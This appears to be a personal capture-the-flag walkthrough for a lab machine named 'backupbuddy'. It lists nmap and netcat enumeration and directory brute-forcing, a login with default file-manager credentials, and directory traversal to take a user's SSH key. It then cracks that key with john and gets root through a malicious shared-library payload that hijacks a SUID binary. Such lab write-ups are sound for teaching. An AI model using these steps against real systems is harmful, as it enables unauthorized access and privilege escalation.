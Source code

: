 ### Enumeration
```
IP=10.10.10.10
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p22,80 -A $IP
nc -nvv -w 1 $IP 1-1000 2>&1 | grep -v 'Connection refused'
```
### Ports
- Banner Grab: nc -nv $IP PORT
- 22
	- OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
- 80
	- Apache httpd 2.4.52 ((Ubuntu))
### Foothold
- 80
	- Default landing page
		- ![[Pasted image 20240729072634.png]]
	- Versions
		- php file manager
	- Directory Brute force
		- dirsearch -u http://$IP
			- /files/
			- /readme
				- Default username/password: fm_admin/fm_admin
				- ![[Pasted image 20240729072704.png]]
	- Logged in
		- fm_admin_fm_admin
		- File system has 2 images
			- Metadata
				- exiv2 pexels-photo-20860153.jpeg
					- Nothing
				- foremost -i pexels-photo-20860153.jpeg
					- Nothing
		- Url bar
			- http://192.168.51.43/index.php?p=../
				- Loads us one directory higher. We have directory traversal
			- Went to home dir for brian. Found ssh keys
				- ![[Pasted image 20240729072911.png]]
			- Downloaded the files
			- Ssh2john id_rsa > id_rsa.hash
			- john id_rsa.hash -wordlist=/usr/share/wordlists/rockyou.txt
				- eugene
			- Now we can ssh into the box as brian
### PE
#### Linux
- USERNAME
	- id
		- uid=1000(brian) gid=1000(brian) groups=1000(brian),33(www-data)
	- sudo -l
		- Uses different password than the ssh key
	- uname -a
		- `Linux backupbuddy 5.15.0-105-generic #115-Ubuntu SMP Mon Apr 15 09:52:04 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
	- getcap -r / 2>/dev/null
	- suid
		- find / -type f -perm -04000 -ls 2>/dev/null
			- /opt/backup
				- When trying to run it says  /home/brian/.config/libm.so is missing
				- We have write control over /home/brian
				- We create .config folder then import a malicious .so
				- Payload  libm.c
					```
					#include <stdlib.h>
					#include <unistd.h>
					
					__attribute__((constructor))
					void bad_stuff() {
					 setuid(0);
					 setgid(0);
					 system("/bin/sh -i");
					}
					```
				- Move libm.c to target
				- Compile:   gcc -shared -o libm.so -fPIC lib.c
				- chmod 777 libm.so
				- Launch suid   /opt/backup
				- Now we are rooted
	- Users with console
		- brian
		- root
	- netstat -ano
		- Active ports
		- No new ports
	- linpeas
		- Possible Exploits
		- Interesting Files
		- Nothing
	- pspy64
### Credentials
### Lessons Learned